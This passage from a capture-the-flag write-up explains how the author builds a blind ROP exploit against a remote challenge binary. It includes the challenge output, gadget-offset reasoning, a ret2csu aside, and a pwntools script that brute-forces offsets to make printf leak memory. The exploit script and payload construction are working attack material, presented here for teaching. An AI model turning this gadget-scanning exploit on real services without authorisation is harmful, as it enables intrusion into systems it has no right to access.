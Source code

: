 ```
b" ----------------------------------------------------------------------------\n ~ You stay the course, you hold the line you keep it all together        ~ \n ~ You're the one true thing I know I can believe in                      ~ \n ~ You're all the things that I desire you save me, you complete me       ~ \n ~                                              - Push, Sarah McLachlan.  ~ \n----------------------------------------------------------------------------\n<<< Push your way to /bin/sh at : 0x55e92d552050\n----------------------------------------------------------------------------\n~ Would you like another push (Y/*) >>> "
winner
0x55e92d54f392
914
```
Based on the BROP gadget starting at 914 bytes from the start of the search space, there should be a pop rsi ; r15 ; ret ; gadget at an offset of 921, and a pop rdi ; ret ; gadget at an offset of 923.

As an aside, I could potentially also use this location in order to perform a ret2csu attack and achieve control of rdx; however, this technique requires the location of a pointer to a function that will essentially exit out quickly without doing anything (typically a pointer to the _init function is available and works nicely), which I would have to do additional scanning to find. Fortunately, I ended up not needing control of the rdx gadget.

### A Gadget to Leak Parts of the Binary

My somewhat unique strategy at this stage was simply to place known, allocated memory in the rdi register (I went for the leaked, purported '/bin/sh' address), then start near a print statement and see if I can skip over the instruction that loads a value into rdi and end up directly at the function call to printf. You could also attempt to find plt entries, but this way got a hit much faster. I also opted to start at the earlier, small print statement that seemed to be mostly printing a portion of my own input back to me rather than the longer print I ultimately used as a stop gadget, since I suspect that this address is actually the start of a main() function or similar and it may take longer to get to the actual print. So, the relevant portions of the script look like this:
```
from pwn import *

for i in range(32, 50): 
    target = remote('0.cloud.chals.io', 21978)

    context.arch = "amd64"
    ...
        padding = b'a' * 16 
    stop_gadget = pop_rax - 0x1c4 + 144
    pop_rdi = pop_rax - 0x1c4 + 923
    pop_rsi_r15 = pop_rax - 0x1c4 + 921
    test_address = pop_rax - 0x1c4 + i
    
    payload = padding + p64(pop_rdi) + p64(binsh) + p64(test_address)
    print(target.recvuntil(b'(Y/*) >>>'))
    target.sendline(payload)
    result = target.recvall(timeout=1)
    print(result)
    if len(result) >= 2:
        print('winner')
        print(hex(test_address))
        print(i)
        target.close()
        break
    print('i is', i)
    target.close()
```
At an offset of i=37 (5 bytes from the original), it prints '/bin/sh' back to me! As a result, we have confirmation that this leak is accurate, and we have a methodology for printing out subsequent portions of the binary.
```
```